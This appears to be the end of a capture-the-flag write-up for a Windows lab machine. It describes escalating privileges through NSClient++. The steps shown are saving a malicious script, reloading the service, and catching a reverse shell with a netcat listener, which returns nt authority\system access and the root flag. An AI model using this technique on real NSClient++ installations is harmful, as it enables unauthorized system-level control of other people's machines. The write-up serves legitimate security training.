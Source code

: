 <br />

### 3.- Run the malicious script:

Once the script is created, click on `"Changes"` -> `"Save configuration"`.

Finally, start a listener and reload NSClient++ by clicking `"Control"` -> `"Reload"`.

<br />

```bash
❯ sudo nc -nlvp 443
[sudo] contraseña para theredp4nther: 
listening on [any] 443 ...
connect to [10.10.14.15] from (UNKNOWN) [10.10.10.184] 50033
Microsoft Windows [Version 10.0.17763.864]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Program Files\NSClient++>whoami

nt authority\system

C:\Program Files\NSClient++>type \Users\Administrator\Desktop\root.txt   

1f19b7089b093d81ab2b747b2dxxxxxx
```

<br />

Yes! We've got a shell and the root flag.

Another Windows machine pwned!!

Keep hacking!❤️❤️

<br />
